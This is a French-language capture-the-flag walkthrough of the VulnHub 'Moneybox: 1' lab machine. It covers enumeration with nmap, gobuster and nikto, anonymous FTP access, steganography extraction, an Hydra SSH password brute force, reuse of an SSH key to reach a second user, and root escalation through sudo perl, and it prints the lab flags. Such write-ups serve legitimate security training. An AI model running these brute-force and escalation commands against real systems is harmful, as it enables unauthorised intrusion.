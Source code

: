 ```yaml
---
title: "Moneybox: 1"
date: 2021-05-09
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/moneybox-1,653
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.45`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir moneybox1 && cd moneybox1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26 09:48 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.38
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
```

On a un serveur **FTP** sur le port **21**, un serveur **SSH** sur le port **22** et un serveur **Apache 2** sur le **80**.

Astuce vous pouvez ajouter le domaine _MoneyBox.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.45 MoneyBox.home
```

Commençons par énumérer le serveur **FTP** afin de récupérer le fichier "trytofind.jpg".

```bash
$ ftp
ftp> open $IP
Connected to 192.168.1.45.
220 (vsFTPd 3.0.3)
Name (192.168.1.45:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Feb 26 09:51 .
drwxr-xr-x    2 0        0            4096 Feb 26 09:51 ..
-rw-r--r--    1 0        0         1093656 Feb 26 09:48 trytofind.jpg
226 Directory send OK.
ftp> get trytofind.jpg
ftp> exit
```

La photo récupérée représente un chat en hoodie tapant sur un clavier d'un pc portable. On check la présence d'informations dans les données **Exif** `exiftool trytofind.jpg pas d'exif` sans succès.  
On poursuit avec **Nikto** pour scanner la sécurité du serveur **Apache**.

```bash
$ nikto -h http://$IP
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 26d, size: 5bc3f995481cd, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ OSVDB-3233: /icons/README: Apache default file found.
```

Rien de croustillant. Scannons les pages avec **Gobuster**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js
/index.html           (Status: 200) [Size: 621]
/blogs                (Status: 301) [Size: 312] [--> http://192.168.1.45/blogs/]
```

La page [/blogs](http://MoneyBox.home/blogs) retourne un chemin dans le code source (en scrollant) `<!--the hint is the another secret directory is S3cr3t-T3xt-->`. La page [/S3cr3t-T3xt](http://moneybox.home/S3cr3t-T3xt) retourne un code dans le code source (en scrollant) `<!..Secret Key 3xtr4ctd4t4 >`.

Testons la présence d'un fichier dans l'image récupérée du serveur **FTP** avec l'outil **Steghide**.

```bash
$ steghide --extract -sf trytofind.jpg
Entrez la passphrase: 3xtr4ctd4t4
�criture des donn�es extraites dans "data.txt".
```

Dans le fichier "data.txt", on apprend la présence d'un éventuel utilisateur "renu".

```bash
$ cat data.txt              
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Avec cette information, tentons un brute force sur le serveur **SSH** avec **Hydra**.

```bash
$ hydra -l renu -P /usr/share/wordlists/rockyou.txt $IP -t 4 -V ssh
[22][ssh] host: 192.168.1.45   login: renu   password: 987654321
```

Après quelques minutes, **Hydra** trouve le mot de passe de cet utilisateur : "987654321".

## Pénétration

On se connecte en **SSH** avec l'utilisateur "renu".

```bash
$ ssh renu@$IP
[STATUS] 4781466.33 tries/min, 14344399 tries in 00:03h, 1 to do in 00:01h, 1 active
renu@192.168.1.45's password: 987654321
```

On trouve facilement le flag user présent dans le fichier "user1.txt".

```bash
$ cat user1.txt
Yes...!
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

## Escalation

L'utilisateur "renu" n'a pas accès à **sudo** mais il y a une autre utilisatrice... "lily".

```bash
$ ls -la /home
drwxr-xr-x  4 lily lily 4096 Feb 26 09:06 lily
```

Dans son dossier on trouve un second flag dans le fichier "user2.txt".

```bash
$ cat /home/lily/user2.txt
Yeah.....
You Got a User2 Flag

==> us3r{F14g:tr5827r5wu6nklao}
```

La clef de l'utilisateur "renu" apparait dans le fichier "authorized_keys" de "lily".

```bash
$ cat /home/lily/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
```

Donc on peut se connecter en **SSH** sur le compte de l'utilisatrice "lily" `ssh lily@localhost`.  
Utilisatrice qui a le droit d'exécuter **sudo**.

```bash
$ sudo -l
User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

On peut exécuter du **Perl** en tant que **sudo** avec ce compte. Commande ci-dessous que l'on récupère sur [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo).

```bash
$ sudo perl -e 'exec "/bin/sh";'
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Désormais root, on peut accèder au contenu du dernier flag.

```bash
$ cat /root/.root.txt
H4ckth3p14n3t
```
